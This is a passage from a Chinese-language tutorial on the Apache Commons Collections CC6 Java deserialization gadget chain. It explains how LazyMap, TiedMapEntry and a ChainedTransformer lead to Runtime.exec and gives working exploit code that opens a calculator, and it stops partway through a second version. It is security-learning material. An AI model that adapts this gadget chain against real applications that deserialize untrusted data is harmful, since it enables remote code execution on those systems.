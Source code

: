 [![](assets/1700127979-84e2cf84dbce5a3bf81918246f206ac6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116155122-ef9f604c-8454-1.png)

containsKey 判断键值，我们把 key 写成个随意的让其判断为 false 从而调用到`factory.transform(key);`而这里的 factory 就是要等于`chainedTransformer`这块上面也讲到了。

至此我们一定大体理解了这个 CC-6 这条链子的思路，我们尝试着去写一下 exp

```bash
public static void main(String[] args) throws Exception{
        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer cha = new ChainedTransformer(Transformers);

        HashMap<Object,Object> m1 = new HashMap<>();//设置一个空的map以便过map.containsKey
        Map<Object,Object> Lazymap = LazyMap.decorate(m1,cha);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(Lazymap,"zxh");//LazyMap.get()这个方法的调用本来就没有参数，所以我们第二个参数为就随便写即可

        HashMap<Object,Object> m2 = new HashMap<>();
        m2.put(tiedMapEntry,"lituer");//触发hash()

    }
```

在执行的时候我们发现成功弹出了计算器，但是这并不是我们想要的结果，我们先要的是在序列化的时候不弹出计算机，在反序列化的时候就弹出计算器执行命令，但现在的情况却恰恰相反，这一幕和 URLDNS 这条链何其相似。

甚至修改的思路都是差不多的。

因为我们调用了 put 方法会一直执行的到危险函数，所以我们需要就行将序列化过程中的某个关键参数改变，然后再序列化过程完毕之后再听过反射的方法修改过来。

```bash
public static void main(String[] args) throws Exception{
        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer cha = new ChainedTransformer(Transformers);

        HashMap<Object,Object> m1 = new HashMap<>();//设置一个空的map以便过map.containsKey
        Map<Object,Object> Lazymap = LazyMap.decorate(m1,new ConstantTransformer(1234));

```